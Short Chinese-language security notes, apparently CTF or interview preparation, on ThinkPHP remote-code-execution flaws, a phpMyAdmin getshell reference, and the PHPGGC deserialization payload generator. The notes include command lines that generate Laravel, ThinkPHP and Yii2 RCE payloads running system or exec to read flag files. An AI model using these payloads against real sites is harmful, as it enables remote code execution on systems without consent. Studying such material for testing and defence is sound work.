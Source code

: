


**thinkphp rce漏洞**：比如5.0版本有个rce漏洞，该漏洞的漏洞关键点存在于thinkphp/library/think/Request.php文件中
在docker中复现了多种版本的rce漏洞。

**漏洞的原理有了解吗,攻击后的返回包的有分析过吗?**
THINKPHP RCE漏洞的原理：举例有一个RCE是这样的：Dispatcher.class.php中res参数中使用了preg_replace的/e危险参数，使得preg_replace第二个参数就会被当做php代码执行，导致存在一个代码执行漏洞，攻击者可以利用构造的恶意URL执行任意PHP代码。

^
phpMyadmin漏洞：
<https://dummykitty.github.io/php/2020/11/22/phpmyadmin-%E5%90%8E%E5%8F%B0-getshell-%E5%8F%8A%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8%E6%80%9D%E8%B7%AF%E6%95%B4%E7%90%86.html#cve-2013-3238>


^
## **php框架反序列化利用工具PHPGGC**
>PHPGGC 是一个 unserialize（） 有效负载库，以及从命令行或编程方式生成它们的工具*。 当您在没有代码的网站上遇到反序列化时，或者只是在尝试构建漏洞时，此工具允许您生成有效负载，而无需经历查找小工具并组合它们的繁琐步骤。它可以被视为相当于[frohoff的ysoserial](https://github.com/frohoff/ysoserial)，但对于PHP。 目前，该工具支持小工具链，例如：CodeIgniter4，Doctrine，Drupal7，Guzzle，Laravel，Magento，Monolog，Phalcon，Podio，Slim，SwiftMailer，Symfony，Wordpress，Yii和ZendFramework，wordpress。

安装：
<https://www.cnblogs.com/xrzxyyds/p/the-introduction-and-installation-of-the-use-of-phpggc-s81yc.html>
```
克隆进入目录即可使用
https://github.com/ambionics/phpggc
```

使用：
```
./phpggc -l
列出全部

./phpggc -l Laravel

./phpggc -i Laravel/RCE2 
列出详情

./phpggc  Laravel/RCE2 system 'tac /fl*' |base64
生成序列化串

./phpggc ThinkPHP/RCE3 system() "cat /flag" --base64`
./phpggc Yii2/RCE1 exec 'cp /fla* test.txt' --URL
```



